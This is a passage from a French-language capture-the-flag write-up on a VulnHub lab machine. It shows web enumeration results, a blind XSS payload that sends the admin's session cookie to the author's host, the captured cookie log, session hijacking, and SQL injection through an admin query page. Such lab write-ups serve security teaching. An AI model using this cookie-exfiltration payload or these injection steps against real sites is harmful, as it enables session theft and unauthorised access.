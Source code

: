```python
```

Échec ! J'ai ensuite testé [une faille qui consiste à demander le fichier via une requête Ajax](https://github.com/h4ckologic/CVE-2019-17221/blob/master/PhantonJS_Arbitrary_File_Read.pdf) et [différentes vulnérabilités de download/upload sur Selenium](https://github.com/JonStratton/selenium-node-takeover-kit/) (toutes ne s'appliquent pas à PhantomJS).  

On ne s'en sort jamais de ces énumérations
------------------------------------------

Nouvelle énumération web, cette fois avec la wordlist *raft-large-directories.txt* :  

```plain
200       60l      174w     3658c http://192.168.56.116/_admin/dist/login.html
302        0l        0w        0c http://192.168.56.116/_admin/dist/index.php
302        0l        0w        0c http://192.168.56.116/_admin/dist/logout.php
302        0l        0w        0c http://192.168.56.116/_admin/dist/
302        0l        0w        0c http://192.168.56.116/_admin/dist/manage.php
```

On a trouvé une interface admin ! Youpi on avance !  

Malheureusement elle ne semble pas plus vulnérable que la page d'accueil.  

La présence de Selenium semble quand même supposer qu'il y a du XSS dans l'air : à quoi bon l'utiliser si ce n'est pour faire exécuter du javascript ?  

J'ai donc procédé une nouvelle fois à l'injection XSS mais cette fois en spécifiant un port plus standard :  

```javascript
<script>var img = document.createElement("img"); img.src = "http://192.168.56.1/?" + encodeURI(document.cookie); document.body.appendChild(img);</script>
```

Finalement j'ai obtenu la réponse que j'attendais :  

```plain
192.168.56.1 - - [22/Dec/2021 13:28:11] "GET /?PHPSESSID=ng7d02qbbl7jucjgc2motad5qp HTTP/1.1" 200 -
```

Une fois le cookie réutilisé dans le navigateur j’accède à l'interface d'administration qui se divise en deux parties :  

* le dashboard qui affiche les informations soumises par les personnes scammées
* la gestion de la base de données qui permet d'exécuter des requêtes SQL sans obtenir leur output

Via le tableau HTML du dashboard et les noms de colonnes on devine qu'il y a une table *orders* avec au moins un champ nommé *cvv*. Je tente donc une simple édition :  

![Credit Card Scammers VulnHub CTF admin interface](https://raw.githubusercontent.com/devl00p/blog/master/images/vulnhub/scammers.png)

```plain
update orders set cvv=current_user();
```

Et de retour au dashboard je vois que la valeur est devenue *orders@%*.  

Extraction des bases de données, tables, colonnes et finalement users/passwords :  
